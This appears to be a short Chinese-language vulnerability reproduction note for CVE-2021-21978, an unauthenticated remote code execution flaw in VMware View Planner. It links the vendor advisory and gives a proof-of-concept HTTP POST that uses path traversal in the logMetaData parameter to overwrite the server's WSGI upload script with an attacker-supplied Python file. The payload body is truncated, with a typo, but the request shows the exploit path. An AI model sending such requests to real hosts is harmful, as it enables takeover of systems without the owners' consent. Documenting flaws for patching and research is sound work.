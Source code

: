 # VMware View Planner 未授权RCE CVE-2021-21978

# VMware View Planner 未授权RCE CVE-2021-21978

## 漏洞描述

输入验证不正确以及缺少授权会导致在logupload Web应用程序中上传任意文件。具有对View Planner Harness的网络访问权限未经授权的攻击者可以上传并执行特制文件，从而导致在logupload容器中远程执行代码。

参考链接：

- https://www.vmware.com/security/advisories/VMSA-2021-0003.html

## 漏洞复现

poc：

```
POST /logupload?logMetaData={"itrLogPath":"../../../../../../etc/httpd/html/wsgi_log_upload","logFileType":"log_upload_wsgi.py","workloadID":"2"}

Accept-Encoding:gzip,deflate
Content-Type:multipart/form-data;boundary=---WebKitFormBoundaryH8GoragzRFVTw1VD


------WebKitFormBoundaryH8GoragzRFVTw1VD
Content-Disposition:form-data;name="logfile";filename=""
Content-Type:text/plain

#! /usr/bin/env python3
import cgi
import os,sys
import logging
import jsom

....
```

![image-20221207141859357](images/image-20221207141859357.png)

